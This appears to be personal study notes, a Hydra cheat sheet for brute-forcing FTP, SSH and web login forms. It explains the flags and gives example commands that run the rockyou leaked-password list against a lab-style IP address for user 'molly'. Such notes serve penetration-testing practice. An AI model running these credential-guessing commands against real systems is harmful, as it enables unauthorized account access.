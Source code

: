 # Notes and example commands in hydra

[Hydra docs from kali](https://en.kali.tools/?p=220)

## FTP cracking

- `hydra -l <userlist> -P <passlist> ftp://<ip>`
  - `-l` is for login. For selecting creds for username field. Could pass path to a list of usernames.
  - `-P` is for password. For selecting creds for password field. could pass path to a list of passwords.

## SSH cracking

- `hydra -l <userlist> -P <passlist> <ip> -t <numberOfThreads> ssh`
  - `-l` for login/username
  - `-P` for password
  - `-t` for specifying number of threads to be used
  - `ssh` for specifying crack type

**Examples:**

- `hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.133.61 ssh -V`

## POST login form

- `hydra -l <username> -P <wordlist> <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`
  - `-l` for login/username
  - `-P` for password
  - `http-post-form` for form type
  - `username=^USER^` usernames from wordlist will be replaced by `^USER^`
  - `password=^PASS^` passwords from wordlist will be replaced by `^PASS^`
  - `F=incorrect` if `incorrect` appears in the output, it's a failed login attempt.

**Examples:**

- `hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.133.61 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

## Wordlist locations to copy

`/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`
